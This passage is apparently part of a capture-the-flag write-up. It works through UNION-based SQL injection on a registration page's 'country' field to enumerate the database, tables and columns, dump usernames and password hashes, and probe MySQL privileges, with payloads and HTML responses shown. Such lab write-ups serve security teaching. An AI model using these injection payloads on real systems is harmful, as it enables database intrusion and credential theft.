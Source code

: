 So the user of the database is `uhc@localhost`. Next, we can obtain the name of the database with `contry=' UNION select database();-- -`:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION select database() ;-- -</h3>
<li class='text-white'>registration</li>
```
So the database name is `registration`. Now that we know the database name, we can try to enumerate again the table names with `country=' UNION select table_name from information_schema.tables where table_schema='registration';-- -`:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION select table_name from information_schema.tables where table_schema='registration' ;-- -</h3>
<li class='text-white'>registration</li>
```
Now we knwow the name of the unique table contained in the database, `registration`. We can enumerate the columns of this table with `country=' UNION select column_name from information_schema.columns where table_name='registration';-- -`:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION select column_name from information_schema.columns where table_name='registration' ;-- -</h3>
<li class='text-white'>username</li>
<li class='text-white'>userhash</li>
<li class='text-white'>country</li>
<li class='text-white'>regtime</li>
```
So the table `registration` contains has the form:
| username | userhash | country | regtime |
|---------|----------|--------|---------|

Let's fill this table with the payload `country=' UNION select username from registration ;-- -` and `country=' UNION select userhash from registration ;-- -`:
| username | userhash |
| :------: | :------: |
| revan | 0cc175b9c0f1b6a831c399e269772661 | 
| revan';show tables;-- | 211d67ceece13f72e97eadd61ba47ff8 |
| s' or 1=1 | 38d6b115d344bb0182bff7cdc6b37ab9 |
| ' or 1=1# | 64d31aa26aefb615ca4325e73aa6f085 |
| a | 66cca4f80d1138dcd0c942f18504f4b8 |
| b | 92eb5ffee6ae2fec3ad71c777531578f |

But this information results useless, since all the users contained were inserted by us.
On the other hand, we can list the privileges the user `uhc@localhost` has on the database, to do so we need to find out which dbManager is used. Usually, each db manager has a schema with its name, so we can try `contry=' UNION select schema_name from information_schema.schemata';-- -`:
```html
<h3 class="text-white">Other Players In ' UNION select schema_name from information_schema.schemata ;-- -</h3>
<li class='text-white'>information_schema</li>
<li class='text-white'>performance_schema</li>
<li class='text-white'>mysql</li>
<li class='text-white'>registration</li>
```
So the db manager is `mysql`. With this information se can list the privileges of the user `uhc@localhost`, injecting `country=' UNION select privilege_type from information_schema.user_privileges where grantee='uhc@localhost';-- -`:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION SELECT privilege_type from information_schema.user_privileges where grantee='uhc@localhost' ;-- -</h3>
```
